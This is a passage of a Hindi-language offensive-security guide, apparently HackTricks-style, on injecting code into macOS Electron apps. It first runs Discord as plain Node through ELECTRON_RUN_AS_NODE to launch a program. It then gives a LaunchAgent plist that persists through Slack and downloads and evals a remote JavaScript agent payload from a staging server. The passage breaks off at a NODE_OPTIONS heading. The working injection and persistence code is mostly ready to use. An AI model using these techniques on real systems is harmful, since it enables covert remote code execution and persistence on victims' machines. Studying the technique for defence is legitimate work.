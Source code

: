 [**दस्तावेज़**](https://www.electronjs.org/docs/latest/api/environment-variables#electron\_run\_as\_node) के अनुसार, यदि इस env चर को सेट किया जाता है, तो यह प्रक्रिया एक साधारण Node.js प्रक्रिया के रूप में शुरू हो जाएगी।

{% code overflow="wrap" %}
```bash
# Run this
ELECTRON_RUN_AS_NODE=1 /Applications/Discord.app/Contents/MacOS/Discord
# Then from the nodeJS console execute:
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```
{% endcode %}

{% hint style="danger" %}
यदि फ्यूज **`RunAsNode`** अक्षम हो जाता है तो env वेरिएबल **`ELECTRON_RUN_AS_NODE`** को अनदेखा किया जाएगा, और यह काम नहीं करेगा।
{% endhint %}

### ऐप प्लिस्ट से इंजेक्शन

[**यहां प्रस्तावित**](https://www.trustedsec.com/blog/macos-injection-via-third-party-frameworks/) के रूप में, आप प्लिस्ट में इस env वेरिएबल का दुरुपयोग करके स्थिरता बनाए रखने के लिए इस्तेमाल कर सकते हैं:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>EnvironmentVariables</key>
<dict>
<key>ELECTRON_RUN_AS_NODE</key>
<string>true</string>
</dict>
<key>Label</key>
<string>com.xpnsec.hideme</string>
<key>ProgramArguments</key>
<array>
<string>/Applications/Slack.app/Contents/MacOS/Slack</string>
<string>-e</string>
<string>const { spawn } = require("child_process"); spawn("osascript", ["-l","JavaScript","-e","eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding( $.NSData.dataWithContentsOfURL( $.NSURL.URLWithString('http://stagingserver/apfell.js')), $.NSUTF8StringEncoding)));"]);</string>
</array>
<key>RunAtLoad</key>
<true/>
</dict>
</plist>
```
## `NODE_OPTIONS` के साथ RCE

आप एक अलग फ़ाइल में पेलोड संग्रहीत कर सकते हैं और इसे निष्पादित कर सकते हैं:
